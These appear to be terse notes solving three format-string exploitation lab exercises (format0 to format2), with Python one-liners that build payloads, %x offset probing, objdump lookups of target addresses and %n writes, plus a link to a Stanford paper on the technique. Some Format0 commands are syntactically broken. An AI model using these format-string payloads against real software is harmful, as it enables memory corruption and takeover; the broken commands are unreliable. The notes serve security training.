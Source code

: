 https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf

##Format0
* can be done in stackoverflow and format
* `./format0 python -c "print -c 'A'*64+\xef\xbe\xad\xde\"`
* `./format0 python -c "print -c '%64d'+'\xef\xbe\xad\xde\'"`

##Format1
* this is bit tricky as the offset not just in the 128 place
* ./format1 `python -c "print 'AAAAAAAA'+'%x.'*150"`
* identify the offset is 128 like this `41414100.41414141.2e782541` so we need add 1 extra `A` for the attack
* identify the target address
* `objdump -t ./format1 | grep target`
* `08049638`
* ./format1 `python -c "print '\x38\x96\x04\x08A%128$n'"`

##Format2
* first step similar with that last one
* we get `python -c 'print "\xe4\x96\x04\x08%x%x%x%n"'` | ./format2
* but target is just 23
* just changing the format string from “%x” to “%44x”. This pads the string to be 44 characters long(magic)
* `python -c 'print "\xe4\x96\x04\x08%44x%x%x%n"'` | ./format2
